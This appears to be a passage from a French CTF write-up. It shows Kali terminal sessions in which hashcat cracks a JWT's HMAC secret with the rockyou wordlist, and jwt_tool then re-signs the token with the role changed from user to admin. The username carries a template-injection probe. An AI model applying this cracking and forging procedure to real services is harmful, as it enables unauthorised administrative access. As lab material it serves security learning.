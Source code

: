 ```bash

Started: Mon Dec 23 20:40:39 2024
Stopped: Mon Dec 23 20:41:06 2024
                                                                                                                                                                                                      
┌──(kali㉿korpstation)-[~/CTF/Tools/jwt_tool]
└─$ hashcat jwt /usr/share/wordlists/rockyou.txt  --show
--SNIP--

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ins3Kjd9dGVzdDEiLCJleHAiOjE3MzQ5ODYyOTEsInJvbGUiOiJ1c2VyIn0.n4gkBy16-M8smbXV_c6TRNueb8EtyZ23Y5qDAD-xoDk:0077secret0077

```
La clé secrète étant ```0077secret0077``` je l'ai utilisé pour reforger le cookie avec un rôle admin. 

```bash
                                                                                                                                                       
┌──(kali㉿korpstation)-[~/CTF/Tools/jwt_tool]
└─$ python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ins3Kjd9dGVzdDEiLCJleHAiOjE3MzQ5ODYyOTEsInJvbGUiOiJ1c2VyIn0.n4gkBy16-M8smbXV_c6TRNueb8EtyZ23Y5qDAD-xoDk -T -p 0077secret0077 -S hs256 

--SNIP--

Token header values:
[1] alg = "HS256"
[2] typ = "JWT"
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
[1] username = "{7*7}test1"
[2] exp = 1734986291    ==> TIMESTAMP = 2024-12-23 21:38:11 (UTC)
[3] role = "user"
[4] *ADD A VALUE*
[5] *DELETE A VALUE*
[6] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 3

Current value of role is: user
Please enter new value and hit ENTER
> admin
[1] username = "{7*7}test1"
[2] exp = 1734986291    ==> TIMESTAMP = 2024-12-23 21:38:11 (UTC)
[3] role = "admin"
[4] *ADD A VALUE*
[5] *DELETE A VALUE*
[6] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
jwttool_5e89f9de2e7d954ca69bb8007aeb69e1 - Tampered token - HMAC Signing:
```